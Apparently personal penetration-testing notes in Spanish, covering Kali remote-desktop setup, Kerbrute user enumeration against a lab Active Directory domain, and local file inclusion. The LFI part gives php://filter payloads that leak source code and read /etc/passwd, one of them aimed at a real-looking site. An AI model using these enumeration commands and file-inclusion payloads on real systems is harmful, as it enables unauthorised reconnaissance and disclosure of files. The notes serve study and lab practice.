 14:40

[https://www.solvetic.com/tutoriales/article/5070-instalar-kali-linux-con-interfaz-grafica-en-windows-10/](https://www.solvetic.com/tutoriales/article/5070-instalar-kali-linux-con-interfaz-grafica-en-windows-10/)

sudo apt-get remove xrdp vnc4server tightvncserver

sudo apt-get install tightvncserver

sudo apt-get install xrdp



Then restart the xrdp service:

sudo service xrdp restart



# Kerbrute

viernes, 24 de julio de 2020

22:04

Este funciona si el puerto 88 está abierto

![](RackMultipart20210412-4-pcx9xb_html_39a03b358b8c3f1a.png)

[https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)

./kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt

Para enumerar usuarios válidos en un windows

![](RackMultipart20210412-4-pcx9xb_html_1d77acb64fa1fbcb.png)



# LFI - Cómo hacer local file inclusion

jueves, 7 de mayo de 2020

14:40

Using for local file inclusion

curl [http://xqi.cc/index.php?m= **php://filter/convert.base64-encode/resource=** index](http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index)

Esto devuelve en base64 el código fuente del archivo index.



También puede servir

?page=php://filter/resource=/etc/passwd

_Desde \&lt;_[_https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601_](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601)_\&gt;_

